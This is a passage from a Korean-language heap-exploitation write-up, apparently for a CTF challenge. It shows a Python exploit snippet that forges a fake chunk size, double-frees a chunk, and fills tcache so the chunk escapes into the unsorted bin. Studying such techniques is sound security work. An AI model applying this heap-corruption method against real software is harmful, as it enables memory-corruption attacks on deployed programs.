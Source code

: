 ## Free Fake chunk

- `0xd0` 크기 또한 tcache에서 관리하기 때문에 unsorted bin이 되지 못한다.
- 해당 청크를 8번 해제하면 마지막 해제할 때 unsorted bin이 되어 tcache escape가 가능하다.

```cpp
#fake chunk
alloc(0x38, p64(0)+p64(0xd1))
alloc(0x10, "AAAA")

for i in range(0, 2):
    alloc(0x78, "AAAA")

free(0)
free(0)
free(0)

# 0xd1(size) -> Fake chunk
alloc(0x38, p8(0x70))
alloc(0x38, "A")
alloc(0x38, "BBBB")

# escape tcache
for i in range(0, 7):
    free(6)

# unsorted bin <- escape tcache (8)
free(6)
pause()
```

![./7.png](./7.png)
